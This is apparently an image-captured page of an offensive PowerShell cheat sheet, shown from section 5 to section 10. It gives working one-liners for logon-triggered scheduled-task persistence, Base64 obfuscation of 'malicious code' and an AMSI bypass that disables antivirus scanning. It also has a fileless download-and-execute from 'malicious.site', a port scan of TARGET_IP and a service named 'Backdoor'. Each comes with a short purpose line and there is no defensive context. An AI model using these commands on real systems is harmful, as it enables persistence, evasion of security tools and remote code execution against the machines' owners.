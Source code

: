 
### **5. Persistence**
#### **Create a Scheduled Task**
```powershell
$Action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-File C:\malware.ps1"; $Trigger = New-ScheduledTaskTrigger -AtLogOn; Register-ScheduledTask -TaskName "MaliciousTask" -Action $Action -Trigger $Trigger;
```
- **Purpose**: Runs a script every time a user logs in.

---

### **6. Obfuscation**
#### **Base64 Encoded Command**
```powershell
$EncodedCommand = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes('malicious code here')); powershell.exe -EncodedCommand $EncodedCommand
```
- **Purpose**: Hides malicious code in encoded strings.

---

### **7. AMSI Bypass**
#### **Disable AMSI**
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```
- **Purpose**: Disables AMSI to bypass antivirus detection.

---

### **8. Fileless Execution**
#### **Download and Execute**
```powershell
Invoke-Expression (New-Object Net.WebClient).DownloadString('http://malicious.site/payload.ps1')
```
- **Purpose**: Downloads and executes a script directly in memory.

---

### **9. Network Recon**
#### **Port Scan**
```powershell
1..1024 | % {Test-NetConnection -ComputerName TARGET_IP -Port $_}
```
- **Purpose**: Scans for open ports on a target machine.

---

### **10. Service Manipulation**
#### **Create a Service**
```powershell
New-Service -Name "Backdoor" -BinaryPathName "C:\malware.exe"
```
- **Purpose**: Creates a new service to execute malicious code.

---